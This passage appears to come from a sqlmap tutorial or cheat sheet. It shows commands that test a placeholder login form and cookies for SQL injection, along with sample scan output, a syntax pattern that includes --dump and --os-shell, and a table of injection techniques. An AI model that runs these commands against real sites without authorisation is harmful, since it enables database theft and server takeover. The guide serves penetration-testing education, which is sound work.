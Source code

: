 ::: terminal
python sqlmap.py -u \"http://target.com/login\" \--data
\"username=admin&password=test\"
:::

### Cookie-based Testing

::: terminal
python sqlmap.py -u \"http://target.com/page\" \--cookie
\"PHPSESSID=abc123; security=low\"
:::

### Basic Output Interpretation

::: code-block
    [12:30:15] [INFO] testing connection to the target URL
    [12:30:15] [INFO] checking if the target is protected by some kind of WAF/IPS
    [12:30:16] [INFO] testing if the target URL content is stable
    [12:30:17] [INFO] target URL content is stable
    [12:30:17] [INFO] testing if GET parameter 'id' is dynamic
    [12:30:17] [INFO] GET parameter 'id' appears to be dynamic
    [12:30:18] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
    [12:30:18] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
    [12:30:18] [INFO] testing for SQL injection on GET parameter 'id'
:::

### Core Command Structure

::: {.attack-vector .risk-high}
#### Basic Syntax Pattern

::: payload-example
python sqlmap.py \[TARGET\] \[OPTIONS\] \[ENUMERATION\] \[TECHNIQUES\]
:::

-   **TARGET:** -u URL, -r request_file, -l log_file
-   **OPTIONS:** \--level, \--risk, \--threads, \--delay
-   **ENUMERATION:** \--dbs, \--tables, \--columns, \--dump
-   **TECHNIQUES:** \--technique, \--tamper, \--os-shell
:::
:::

::: {#detection-techniques .section .section}
## Detection Techniques

### SQLMap Injection Techniques

  Technique             Code   Description                         Speed
  --------------------- ------ ----------------------------------- -----------
  Boolean-based blind   B      True/False response analysis        Slow
  Time-based blind      T      Response time delay analysis        Very Slow
  Error-based           E      Database error message extraction   Fast
  Union query-based     U      UNION SELECT statements             Very Fast
  Stacked queries       S      Multiple query execution            Fast
  Inline queries        Q      Nested SELECT statements            Fast
